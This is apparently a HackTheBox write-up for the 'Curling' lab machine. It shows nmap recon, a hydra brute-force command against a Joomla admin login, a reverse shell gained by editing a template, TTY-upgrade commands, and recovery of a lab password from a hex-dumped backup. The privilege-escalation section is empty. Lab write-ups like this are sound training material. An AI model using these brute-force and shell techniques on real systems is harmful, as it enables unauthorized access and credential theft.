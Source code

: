# Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.150 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/1.png">

The scan shows two open ports and the target is running on Linux. On port 80 there's a webservice running a CMS. We spot a administator username in a message: ```Floris```. Next we'll try to find out the type and version of the CMS.

# Enumeration
Running ```whatweb``` on the target shows us that the webservice is running Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/2.png">

```Wappalyzer``` tells us the same thing:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/4.png">

Next we'll run ```joomscan``` on the target only to find out it didn't return anything useful. We do however find the administrator login page at ```http://10.10.10.150/administrator/```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/3.png">

# Initial Foothold
We can use ```cewl``` to create a wordlist in order to bruteforce the ```Floris``` administrator account.
```
cewl -m 3 http://10.10.10.150 -d 3 -w words.txt 
```
```Cewl``` removes trailing numbers so we'll add ```curling2018``` to our wordlist. We also use ```john the ripper``` to add numbers and symbols:
```
john --wordlist=words.txt --rules --stdout > words-modified.txt 
```

We intercept a login attempt with ```BurpSuite``` and use the information to craft the request for ```thc-hydra```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/5.png">
```
hydra -l Floris -P words-modified.txt 10.10.10.150 http-post-form "/:username=^USER^&passwd=^PASS^&option=com_login&task=login&return=aW5kZXgucGhw&9abbf60416dedcbdf4f5530a3ddea49d=1:F=Username and password do not match" -V 
```
This didn't work either..

Reviewing the code from the website reveals a secret.txt file. This file contains a base64 encoded string which decodes to: ```Curling2018!```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/6.png">

We can now login at the administrator page using ```Floris``` and ```Curling2018!```.

Next thing we can try is to upload a reverse php shell from Pentestmonkey. A filter is blocking this attempt. We can try to bypass these filters by altering the request but it didn't seem to work. Another method is to change the content of a page. We'll do this for the ```index.php``` page after browsing to ```Extensions >  Templates > Templates > Beez3 Details and Files```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/8.png">

As soon as we preview the template we have a reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/7.png">

# Lateral movement
Trying to upgrade to a PTY shell didn't work as there's no ```python``` installed. We can however try to upgrade to a TTY shell:
```
/usr/bin/script -qc /bin/bash /dev/null	
export TERM=xterm
Press ctrl+z key combination 
stty raw -echo; fg
```

We look for cron jobs, running processes and check the kernel version with ```uname -a```. This shows the target is running Linux Curling 4.15.0. Nothing special to see here.

When browsing the users files we have access to a file named ```pass_word``` backup. After investigating this file it turns out to be hex dump using ```xxd```. Which we can reverse.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/9.png">

```
cat password_backup | xxd -r > output
```

We then have to extract the file a few times using the following commands:
```
bzip2 -d bak
file bak.out
mv bak.out bak.gz
gzip -d bak.gz
file bak
bzip2 -d bak
file bak.out
tar xf bak.out
cat password.txt
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/10.png">

This provides us a password: ```5d<wdCbdZu)|hChXll```. We can now use ```su floris``` and enter the password to have access using the ```floris``` account.

# Privilege Escalation










